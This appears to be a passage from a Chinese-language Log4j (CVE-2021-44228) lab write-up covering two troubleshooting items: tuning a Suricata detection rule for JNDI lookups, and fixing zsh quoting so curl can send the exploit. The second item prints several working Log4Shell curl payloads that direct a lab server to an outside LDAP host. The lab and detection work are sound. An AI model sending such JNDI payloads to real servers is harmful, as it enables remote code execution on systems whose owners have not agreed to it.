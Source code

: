 
##### 3. **Suricata 规则编写与调试**

**🧨 问题现象：**
- Suricata 初始规则未能准确匹配 Log4j 攻击特征。
- 规则触发频率过高，导致误报严重。

**🔍 问题分析：**
- Suricata 规则中对 HTTP 请求体的匹配不够具体，容易受到其他 POST 请求干扰。
- 未设置合理的 `classtype` 和 `sid`，导致日志难以区分真实攻击与误报。

**✅ 解决方案：**
- 精细化规则匹配条件，增加 `http_client_body` 字段的匹配逻辑：
  ```suricata
  alert http $EXTERNAL_NET any -> $HOME_NET any (
     msg:"CVE-2021-44228: Log4j JNDI 远程代码执行尝试";
     flow:to_server,established;
     content:"POST"; http_method;
     content:"jndi:ldap://"; http_client_body; fast_pattern;
     sid:1000001;
     rev:1;
     classtype:web-application-attack;
  )
  ```
- 限制规则适用范围，仅针对特定的 HTTP 方法和 URI 路径。
- 设置合适的分类类型（`classtype`）和唯一 ID（`sid`），便于日志归类和管理。

---

##### 4. **zsh 中 `${}` 引发的语法错误**

**🧨 问题现象：**
运行以下命令时出现错误：
```bash
curl -X GET "http://192.168.56.103:8080/hello?payload=${jndi:ldap://chloris.check4safe.top/exp}"
```
错误信息为：
```
zsh: unrecognized modifier
```

**🔍 问题分析：**
- `zsh` 默认会对 `${}` 语法进行变量扩展。
- `${jndi:ldap://...}` 不是一个有效的变量，因此 zsh 报错。

**✅ 解决方案：**
- **使用单引号包裹 payload**：
  ```bash
  curl -G --data-urlencode 'payload=${jndi:ldap://chloris.check4safe.top}' http://192.168.20.6:23509/hello -vv
  ```
- **使用双引号并转义 `$` 符号**：
  ```bash
  curl -G --data-urlencode "payload=\${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
  ```
- **切换至 bash shell 执行命令**：
  ```bash
  bash
  curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
  ```

---